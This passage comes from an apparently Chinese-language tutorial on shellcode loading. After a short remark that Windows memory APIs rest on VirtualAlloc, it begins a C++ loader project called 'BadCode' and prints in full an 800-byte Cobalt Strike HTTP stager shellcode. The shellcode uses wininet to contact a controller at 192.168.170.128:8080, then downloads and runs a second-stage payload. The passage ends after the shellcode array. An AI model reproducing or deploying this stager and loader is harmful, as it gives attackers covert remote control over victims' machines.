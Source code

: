         

**0x02 申请内存API的关系**

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

**0x03 实现一次正常加载**

这里我创建了一个C++项目，名字为：BadCode

先来使用cobaltstrike默认的shellcode进行加载，为了方便阅读参考，在代码中我会尽量留下注释。

    #include <Windows.h>
    
    
    // 入口函数
    int wmain(int argc,TCHAR * argv[]){
    
        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
    /* length: 800 bytes */
    
    unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x90\x1f\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x60\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x50\x45\x4f\x78\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x4e\x4c\x4e\x4c\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x37\x30\x2e\x31\x32\x38\x00\x00\x00\x00\x00";
    